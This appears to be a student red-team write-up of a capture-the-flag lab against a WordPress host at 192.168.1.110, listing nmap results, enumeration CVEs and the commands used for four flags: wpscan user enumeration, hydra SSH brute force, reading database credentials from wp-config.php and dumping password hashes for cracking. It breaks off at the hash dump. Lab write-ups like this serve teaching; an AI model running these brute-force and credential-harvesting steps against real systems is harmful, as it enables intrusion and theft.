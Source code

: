 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
Command: $ nmap -sV -sC -O 192.168.1.0/24
  ```
 <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Target-1_nmap.png" alt="Target1_IP" style="height: 400px; width:600px;"/>


This scan identifies the services below as potential points of entry:
   Target 1  
     1. Port 22/TCP Open SSH       
     2. Port 80/TCP Open HTTP       
     3. Port 111/TCP Open rcpbind       
     4. Port 139/TCP Open netbios-ssn     
     5. Port 445/TCP Open netbios-ssn  


The following vulnerabilities were identified on each target:     
   Target 1  
    1. User Enumeration (WordPress site)  
            a. The stop-user-enumeration plugin before 1.3.8 for WordPress has XSS. [CVE-2017-18536](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-18536/ "CVE-2017-18536")  
            b. WordPress Core < 4.7.1 - Username Enumeration Vulnerability CVE-2017-5487 Scanner [CVE-2017-5487](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5487/ "CVE-2017-5487")  
    2. Weak user Passwords - guess or use hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh      
    3. Unsalted user Password Hash (WordPress)  
    4. Misconfiguration of User Privileges/Privilege Escalation with Python.    

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `Flag1: b9bbcb33ellb80be759c4e844862482d` _hash value_
    - **Exploit Used**
      - WPScan to enumerate users of target1 WordPress site.
      - wpscan --url http://192.168.1.110 --enumerate u
       <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wpscan_michael.png?raw=true" alt="WPScan Users"/>             

      - Brute force, `guess`, or hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh  
      - Use guess password `michael` for user michael.    
      ssh michael@192.168.1.110  
      pwd: michael  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/michael_ID.png?raw=true" alt="michael_ID"/>  
  - egrep flag* service.html
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-1_service-html.png?raw=true" alt="Flag1"/>  

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/service-htmp-footer-flag1.png?raw=true" alt src="source.html" style="height: 400px; width:600px;"/>


  - `Flag2: fc3fd58dcdad9ab23faca6e9a3e581c` _hash value_  
    - **Exploit Used**
      -  Same exploit covered in flag1 to gain access
      - Commands:
      - ssh michael@192.168.1.110
      - pw: michael
      - cd /var/www - transverse the directory.
      - find / i-name flag*
      - cat flag2.txt
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-2.png?raw=true" alt="Flag2"/>  

  - `Flag3: afc01ab56b50591e7dccf93122770cd2`   
        - **Exploit Used**        
          - Using michael's credentials; locate the wp-config.php, and use mysql to explore the database.     
          - Once found, the wp-config.php displayed the db_password in plain text.

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wp-config-php--location.png?raw=true" alt="wp_location"/>  
          - cat wp-config-php       
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wp-config_PWD.png?raw=true" alt="wp_passwd"/>  

           - Flag3 was found in the wp_posts table in the wordpress database.
             - Commands:
              - Connected to mysql: -u root -p'R@v3nSecurity'
              - show databases;
              - use wordpress;
              - show tables;
             - select * from wp_posts;  

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/myswl-logon.png?raw=true" alt="mysql-login"/>  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/mysql_databases.png?raw=true" alt="mysql_databases"/>    
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/mysql_TABLES.png?raw=true" alt="mysql_TABLES"/>  

  - `Flag4: 715dea6c055b9fe3337544932f2941ce`:   
            - **Exploit Used**
              - Use of weak salted hashes and Python root escalation Privileges.  
              - Still using michaels credentials, gather the password hashes to crack.  
              - The usernames and password hashes were copied to the kali server in a file (wp_hashes.txt), and cracked with John.  
              - select * from wp_users;
              
